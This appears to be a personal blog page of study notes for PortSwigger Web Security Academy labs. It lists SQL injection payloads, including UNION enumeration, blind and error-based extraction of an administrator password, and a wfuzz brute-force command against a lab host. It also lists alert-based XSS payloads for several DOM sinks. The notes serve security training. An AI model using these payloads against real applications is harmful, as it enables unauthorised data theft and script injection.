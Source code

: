```yaml
---
title: BurpSuite Lab
author: Yuchao
date: 2022-05-10 11:33:00 +0800
categories: [sec]
tags: [burpsuite]
math: true
mermaid: true
---
```


# sql injection

#### cheetsheet
<https://portswigger.net/web-security/sql-injection/cheat-sheet>

```
'+OR+1=1--
'+UNION+SELECT+NULL,NULL--

-- find columns are compatible with string data
'+UNION+SELECT+'abcdef',NULL,NULL--

-- oracle, find database type and version
'+UNION+SELECT+'abc','def'+FROM+dual--
'+UNION+SELECT+BANNER,+NULL+FROM+v$version--

-- mysql, find database type and verion
'+UNION+SELECT+'abc','def'#
'+UNION+SELECT+@@version,+NULL#

-- list database contents, not oracle
'+UNION+SELECT+table_name,+NULL+FROM+information_schema.tables--
'+UNION+SELECT+column_name,+NULL+FROM+information_schema.columns+WHERE+table_name='users_abcdef'--

-- list database contents, oracle
'+UNION+SELECT+table_name,NULL+FROM+all_tables--
'+UNION+SELECT+column_name,NULL+FROM+all_tab_columns+WHERE+table_name='USERS_ABCDEF'--

-- blind, conditional responses
-- "Welcome back" message disappears if error
TrackingId=xyz' AND (SELECT 'a' FROM users LIMIT 1)='a
TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>3)='a
TrackingId=xyz' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='a

-- blind, error based, 
TrackingId=qi1dv3ezFEfn1WHY' || (select '' from users where rownum=1) ||'; session=oAr6CBmB8X7rdA5tS8FQRfcfX1qELUtK
-- WHERE ROWNUM = 1 condition is important here to prevent the query from returning more than one row, which would break our concatenation. 
-- Conditional errors
-- You can test a single boolean condition and trigger a database error if the condition is true. Oracle: SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN to_char(1/0) ELSE NULL END FROM dual 
TrackingId=xyz'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
-- check if administrator exists.
Cookie: TrackingId=qi1dv3ezFEfn1WHY' || (SELECT CASE WHEN (length(password)>19) THEN to_char(1/0) ELSE NULL END FROM users where username='administrator' ) ||'; session=oAr6CBmB8X7rdA5tS8FQRfcfX1qELUtK
-- when 19, return code500, mean > 19 is true; when 20, return code200, mean > 20 is false.
TrackingId=xyz'||(SELECT CASE WHEN SUBSTR(password,1,1)='a' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
-- blind test password
-- wfuzz is much quicker than intruder.
wfuzz -H "Cookie: TrackingId=qi1dv3ezFEfn1WHY' || (SELECT CASE WHEN (SUBSTR(password,1,6)='1psbwFUZZ') THEN to_char(1/0) ELSE NULL END FROM users where username='administrator' ) ||'; session=oAr6CBmB8X7rdA5tS8FQRfcfX1qELUtK" -u https://aca41fa31e42c37cc0b00aa9001a0095.web-security-academy.net/filter?category=Pets -w /home/kali/wordlist/alphanum --sc 500
```

# Cross-site scripting

- url ``` web-security-academy.net/?search=<script>alert%281%29<%2Fscript> ```
- ``` <script> alert(1) </script>```

---

"View source" option won't work for DOM XSS testing 

---

document.write
```js
function trackSearch(query) {
	document.write('<img src="/resources/images/tracker.gif?searchTerms='+query+'">');
}
var query = (new URLSearchParams(window.location.search)).get('search');
if(query) {
	trackSearch(query);
}
```
``` "><svg onload=alert(1)> ```

---

innerHTML
```javascript
function doSearchQuery(query) {
    document.getElementById('searchMessage').innerHTML = query;
}
var query = (new URLSearchParams(window.location.search)).get('search');
if(query) {
    doSearchQuery(query);
}

```
``` <img src=1 onerror=alert(1)> ```

---

jQuery selector sink
```javascript
$(window).on('hashchange', function(){
    var post = $('section.blog-list h2:contains(' + decodeURIComponent(window.location.hash.slice(1)) + ')');
    if (post) post.get(0).scrollIntoView();
});
```

```javascript
<a id="author" href="javascript:alert(1)">0xZEN</a>
```
---

HTML ```<a>``` href Attribute
- ``` <a href="URL"> ```
- The URL of the link.
Possible values:
- An absolute URL - points to another web site (like href="http://www.example.com/default.htm")
- A relative URL - points to a file within a web site (like href="default.htm")
- Link to an element with a specified id within the page (like href="#section2")
- Other protocols (like https://, ftp://, mailto:, file:, etc..)
- A script (like href="javascript:alert('Hello');")    THIS ONE CAN BE USED TO XSS.

---

AngularJS expression
```javascript
{{$on.constructor('alert(1)')()}}
```

---

Reflected DOM XSS
```javascript
{"results":[],"searchTerm":"asd"}
```
search: ``` \"-alert(1)}// ```
```javascript
{"results":[],"searchTerm":"\\"-alert(1)}//"}
```
- note: '\' can not be interpretered alone, so if only one \ will be error in json.
- in this case \" is used as "
